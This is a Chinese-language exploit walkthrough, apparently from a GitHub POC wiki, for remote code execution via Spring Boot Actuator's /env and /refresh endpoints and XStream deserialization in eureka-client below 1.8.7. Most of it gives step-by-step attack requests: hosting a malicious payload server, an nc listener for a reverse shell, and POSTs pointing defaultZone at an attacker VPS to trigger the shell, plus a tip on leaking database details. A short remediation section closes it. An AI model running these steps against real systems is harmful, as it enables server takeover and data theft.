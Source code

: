 # eureka xstream deserialization RCE

## 利用条件：
 - 可以 POST 请求目标网站的 /env 接口设置属性
 - 可以 POST 请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
 - 目标使用的 eureka-client < 1.8.7（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）
 - 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

## 利用方法：

#### 访问`/env`，查找存在`eureka-client`依赖 🚩
#### 架设响应恶意 XStream payload 的网站
使用 python3 在自己控制的服务器上运行[脚本](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator(eureka%20xstream%20deserialization%20RCE)/file/example.py)，并根据实际情况修改脚本中反弹shell的 ip 地址和 端口号。
#### nc 监听反弹 shell 的端口
`nc -lvnp 8446`
#### 设置 eureka.client.serviceUrl.defaultZone 属性
spring 1.x
```bash
POST /env
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://<yourvpsip>:2222/example
```
spring 2.x
```bash
POST /actuator/env
Host: x.x.x.x
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://<yourvpsip>:2222/example"}
```
![](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator/img/request.png)

#### 刷新配置
spring 1.x
```bash
POST /refresh
Host: x.x.x.x
Content-Type: application/x-www-form-urlencoded
```
spring 2.x
```bash
POST /actuator/refresh
Host: x.x.x.x
Content-Type: application/json
```
![](https://github.com/7estUser/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/Actuator/img/refreh.png)
#### 服务器接收到shell，并且能成功执行命令

> ⚠️ 同时访问/env端点获取全部环境属性，由于 actuator 会监控站点 mysql、mangodb 之类的数据库服务，所以通过监控信息有时可以展示mysql、mangodb 数据库信息.

## 漏洞原理：
1. eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
2. refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
3. 目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞

## 漏洞分析：
 - Actuator是Spring Boot提供的服务监控和管理中间件，默认配置会出现接口未授权访问，部分接口会泄露网站流量信息和内存信息等，使用Jolokia库特性甚至可以远程执行任意代码，获取服务器权限
 - XStream：XStream是Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。
 - /env端点配置不当造成RCE

## 漏洞修复
### 一 禁用所有接口：
`endpoints.enabled = false`

### 二 pom.xml文件引入spring-boot-starter-security依赖：
```bash
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-security</artifactId>
</dependency>
```

### 三 开启security功能，配置访问权限验证，类似配置如下：
```bash
management.port=8099
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxxx
```